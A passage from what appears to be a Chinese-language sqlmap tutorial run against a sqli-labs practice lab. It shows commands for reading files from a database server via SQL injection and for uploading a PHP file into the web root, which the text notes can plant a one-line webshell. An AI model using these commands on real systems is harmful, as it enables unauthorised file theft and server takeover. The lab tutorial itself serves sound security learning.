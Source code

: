 
当数据库为MySQL、PostgreSQL或SQL Server，并且当前用户有权限时，可以读取指定文件，可以是文本文件或者二进制文件。



```
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --file-read "c:/test.txt" #读取目标服务器C盘下的test.txt文件
```




![](https://img-blog.csdnimg.cn/20181202125206101.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)​



可以看到，文件读取成功了，并且保存成了 /root/.sqlmap/output/192.168.10.1/files/c\_\_test.txt 文件



### ![](https://img-blog.csdnimg.cn/20181202125214880.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)​



### 上传文件到数据库服务器中(--file-write  --file-dest)



当数据库为MySQL、Postgre SQL或者Sql Server(通过powershell写入)，并且当前用户有权限向任意目录写文件的时候，可以上传文件到数据库服务器。文件可以是文本，也可以是二进制文件。



所以利用上传文件，我们可以上传一句话木马或者上传shell上去。



前提是我们知道网络的绝对路径



```
python2 sqlmap.py -u http://192.168.10.130/sqli-labs/Less-2/?id=1 --file-write C:\Users\mi\Desktop\1.php --file-dest "C:\phpStudy\PHPTutorial\WWW\2.php"  #将本地的C:\Users\mi\Desktop\1.php文件上传到目标服务器C:\phpStudy\PHPTutorial\WWW\2.php
```




![](https://img-blog.csdnimg.cn/20200222203845829.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)​



这里会问我们是否想验证上传成功，我们选择 y 的话，他就会读取该文件的大小，并且和本地的文件大小做比较，只要大于等于本地文件大小即说明上传功能了​



![](https://img-blog.csdnimg.cn/20200222203920538.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/20200222203946222.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)